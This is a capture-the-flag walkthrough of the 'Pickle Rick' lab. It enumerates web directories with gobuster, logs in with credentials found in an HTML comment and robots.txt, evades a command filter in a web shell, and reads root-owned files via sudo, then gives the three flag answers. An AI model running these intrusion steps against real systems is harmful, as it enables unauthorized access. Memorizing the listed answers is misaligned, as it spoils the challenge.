


# Pickle Rick

1. What is the first ingredient that Rick needs?
2. What is the second ingredient in Rick’s potion?
3. What is the last and final ingredient?

Inspecting the HTML of the landing page (`index.html`), we come across a comment:

```text
Note to self, remember username!

    Username: R1ckRul3s
```

Username... but there's no direct way to access a login page

Let's try directory enumeration:

```shell
gobuster dir -u 10.10.241.41 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```



```text
robots.txt
> Wubbalubbadubdub

clue.txt
> Look around the file system for the other ingredient.
```

The `assets/` just contains a few images

`portal.php` and `login.php` both direct to the same login page; Username: *R1ckRul3s* and Password: *Wubbalubbadubdub* worked!

Upon logging in, we get a command panel, a Shell!

```shell
ls
```



```shell
cat Sup3rS3cretPickl3Ingred.txt
> Command denied
less Sup3rS3cretPickl3Ingred.txt
> mr. meeseek hair
```

Answer-1: **mr. meeseek hair**

Now, let's try to search for all the text files in the system:

```shell
find / -type f -name "*.txt"
> lot of files, but nothing interesting
sudo find / -type f -name "*.txt"
> an interesting file: /root/3rd.txt
sudo less /root/3rd.txt
> 3rd ingredients: fleeb juice
```

Answer-3: **fleeb juice**

Maybe we can try searching files with "ingredient" in name:

```shell
find / -iname "ingredient"
> /home/rick/second ingredients
less "/home/rick/second ingredients"
> 1 jerry tear
```

Answer-2: **1 jerry tear**
